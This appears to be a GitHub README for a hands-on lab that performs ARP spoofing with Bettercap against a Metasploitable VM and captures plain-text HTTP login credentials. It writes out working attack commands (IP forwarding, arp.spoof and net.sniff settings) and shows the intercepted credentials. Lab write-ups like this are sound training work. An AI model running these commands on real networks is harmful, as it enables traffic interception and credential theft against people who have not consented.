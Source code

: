# Man-in-the-Middle (MITM) Attack Lab

A hands-on lab demonstrating a Layer 2 ARP Spoofing attack to intercept unencrypted network traffic and capture plain-text credentials using Bettercap.

##  Overview

This project simulates a real-world Man-in-the-Middle (MITM) attack on a local network segment. The goal was to position an attacker between a victim client and the network gateway to intercept and analyze all traffic passing through, ultimately capturing login credentials sent over unencrypted protocols.



##  Attack Execution

### Step 1: Enable IP Forwarding
     On the Kali attacker, IP forwarding was enabled to allow traffic to flow through the             machine seamlessly.
     ```bash
     echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

    Step 2: Launch ARP Spoofing Attack
     Bettercap was used to perform ARP cache poisoning against the victim and the gateway.

     bash
     sudo bettercap -iface eth0
     > set arp.spoof.targets 192.168.78.140
     > arp.spoof on
     > net.sniff on

    Step 3: Generate Traffic & Capture Credentials
            From the victim machine, traffic was generated to trigger an HTTP login request.

            bash
            On the Victim VM (Metasploitable 3)
            curl -X POST http://192.168.78.140/payroll_app.php -d                                            "username=admin&password=password"
    Step 4: Intercept Credentials
            The attacker's Bettercap console successfully intercepted the unencrypted HTTP POST              request.

    Intercepted Traffic:

          text
          [http] [192.168.78.140] > [192.168.78.140] "POST /payroll_app.php HTTP/1.1"
          username=admin&password=password

  Results & Evidence
           The attack was successful. The following evidence was collected:

           ARP Poisoning Confirmation: The victim's ARP table was successfully poisoned,                    pointing its gateway route to the attacker's MAC address.

           Traffic Interception: ICMP (ping) requests from the victim to the gateway were                   visibly routed through the attacker's machine.

           Credential Capture: Plain-text credentials (admin:password) were captured from the               HTTP POST request to the vulnerable payroll application.




